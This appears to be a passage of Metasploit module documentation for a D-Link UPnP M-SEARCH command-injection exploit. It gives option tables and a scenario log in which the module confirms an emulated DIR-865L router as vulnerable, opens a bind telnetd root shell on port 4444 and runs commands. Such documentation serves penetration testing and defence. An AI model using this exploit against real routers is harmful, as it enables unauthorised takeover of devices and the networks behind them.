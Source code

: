 ```shell
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/bind_busybox_telnetd):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   LOGIN_CMD  /bin/sh          yes       Command telnetd will execute on connect
   LPORT      4444             yes       The listen port
   RHOST      192.168.0.1      no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


View the full module info with the info, or info -d command.
```

## Options
### HTTP_PORT
Port setting where the HTTP and SOAP service is running, typically port 80.
This is used to discover the d-link hardware and version information by scraping the web or soap response.

## Scenarios
###  FirmAE D-Link DIR-865L Router Emulation Unix Command -  cmd/unix/bind_busybox_telnetd
```shell
msf6 exploit(linux/upnp/dlink_upnp_msearch_exec) > check

[*] Checking if 192.168.0.1:1900 can be exploited.
[*] 192.168.0.1:1900 - The target appears to be vulnerable. Product info: DIR-865L|1.07|A1|mipsle
msf6 exploit(linux/upnp/dlink_upnp_msearch_exec) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.0.1:1900 can be exploited.
[+] The target appears to be vulnerable. Product info: DIR-865L|1.07|A1|mipsle
[*] Executing Unix Command for cmd/unix/bind_busybox_telnetd
[*] Started bind TCP handler against 192.168.0.1:4444
[*] Command shell session 1 opened (192.168.0.2:42349 -> 192.168.0.1:4444) at 2023-10-17 18:35:36 +0000

Shell Banner:
_!_

 # uname -a
uname -a
Linux dlinkrouter 4.1.17+ #28 Sat Oct 31 17:56:39 KST 2020 mips GNU/Linux
 # hostname
hostname
dlinkrouter
 #
```